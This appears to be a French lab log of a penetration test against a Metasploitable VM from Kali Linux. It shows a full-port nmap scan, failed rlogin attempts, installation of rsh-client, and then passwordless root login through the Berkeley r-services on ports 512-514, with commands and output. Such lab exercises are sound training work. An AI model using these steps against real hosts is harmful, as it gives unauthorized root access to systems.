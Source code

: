 KALI LINUX 192.168.152.130 Fighter
METASPOILTABLE 192.168.152.135 Defender
------------------------------------------
# Commande 
apt-get update
SCAN DES PORTS

nmap -p0-65535 192.168.152.135

Faille berkeley ports 512 - 513 -514 

root@kali:~# rlogin -l root 192.168.152.135
The authenticity of host '192.168.152.135 (192.168.152.135)' can't be established.
RSA key fingerprint is SHA256:BQHm5EoHX9GCiOLuVscegPXLQOsuPs+E9d/rrJB84rk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.152.135' (RSA) to the list of known hosts.
root@192.168.152.135's password:
Permission denied, please try again.
root@192.168.152.135's password:
Permission denied, please try again.
root@192.168.152.135's password:
Permission denied (publickey,password).


root@kali:~# apt-get install rsh-client
Reading package lists... Done
Building dependency tree
Reading state information... Done
The following packages were automatically installed and are no longer required:
  gdebi-core iproute libcrypto++6 libvpx3 python-ipaddr python-pycryptopp
Use 'apt autoremove' to remove them.
The following NEW packages will be installed:
  rsh-client
0 upgraded, 1 newly installed, 0 to remove and 1352 not upgraded.
Need to get 31.4 kB of archives.
After this operation, 93.2 kB of additional disk space will be used.
Get:1 http://ftp.free.fr/pub/kali kali-rolling/main amd64 rsh-client amd64 0.17-17+b1 [31.4 kB]
Fetched 31.4 kB in 0s (97.9 kB/s)
Selecting previously unselected package rsh-client.
(Reading database ... 318083 files and directories currently installed.)
Preparing to unpack .../rsh-client_0.17-17+b1_amd64.deb ...
Unpacking rsh-client (0.17-17+b1) ...
Setting up rsh-client (0.17-17+b1) ...
update-alternatives: using /usr/bin/netkit-rcp to provide /usr/bin/rcp (rcp) in auto mode
update-alternatives: using /usr/bin/netkit-rsh to provide /usr/bin/rsh (rsh) in auto mode
update-alternatives: using /usr/bin/netkit-rlogin to provide /usr/bin/rlogin (rlogin) in auto mode
Processing triggers for man-db (2.7.6.1-2) ...
root@kali:~#


root@kali:~# rlogin -l root 192.168.152.135
Last login: Thu Mar 30 08:09:39 EDT 2017 from :0.0 on pts/0
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686
